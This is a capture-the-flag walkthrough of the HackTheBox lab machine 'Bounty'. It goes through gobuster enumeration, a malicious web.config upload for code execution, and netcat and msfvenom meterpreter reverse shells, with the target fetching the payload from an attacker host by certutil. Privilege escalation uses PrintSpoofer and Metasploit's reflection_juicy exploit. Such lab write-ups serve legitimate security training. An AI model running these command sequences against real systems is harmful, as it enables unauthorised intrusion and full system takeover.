

# Bounty

# Recon

## PortScan

`nmap -sCV -T4 10.10.10.93`

## Web

Simple static page

Lets add the IP to our `hosts` file

### Directory Discover

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://bounty.htb/`

By using another wordlist found this directory

`gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u [http://bounty.htb/](http://bounty.htb/) -x asp,aspx,config`

After using another wordlist found this

Now that we can upload `web.config` maybe some `ASP` payload

I used this one [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload Insecure Files/Configuration IIS web.config/web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config) save it to a file and upload, after uploading go to this URL `http://bounty.htb/uploadedfiles/web.config`

By running `whoami` we get the response so maybe we can do a reverse shell

### Getting a shell

Open a netcat listener

`nc -lvnp 1234`

I used this powershell reverse shell

Copy the code and paste it inside the input field

And we got a shell

Getting user flag

`cat user.txt`

### Getting a meterpreter session

Create a msfvenom payload

`msfvenom -p windows/meterpreter/reverse_tcp lhost={LOCAL-IP} lport=9999 -f exe > shell.exe`

Open a python web server inside the directory of the shell

`python3 -m http.server 80`

Inside the windows machine download the `shell.exe` using `certutil -urlcache -f http://{LOCAL-IP}/shell.exe shell.exe`

Now we need to setup a handler

Open metasploit using the command 

`msfconsole`

Use the handler module

`use multi/handler`

`set payload windows/meterpreter/reverse_tcp`

`set lhost {LOCAL-IP}`

`set lport 9999`

`run`

Now open the `shell.exe` inside the windows

`./shell.exe`

And we got a meterpreter session

## Privilege Escalation

Go to windows shell using

`shell`

Get current privileges

`whoami /privs`

We gonna use PrintSpoofer privilege escalation method so lets download the `.exe`

Go to this link [https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) and download this file

Put the shell on the background

Now lets upload that file to the windows machine

`upload /home/zodiac/htb/bounty/PrintSpoofer64.exe`

### Finding an exploit

`use multi/recon/local_exploit_suggester`

`set session 1`

`run`

Im gonna use the reflection_juicy

`use exploit/windows/local/ms16_075_reflection_juicy`

`set lhost tun0`

`set session 1`

`exploit`

And we can verify our user by doing

`getuid`

Get the root flag

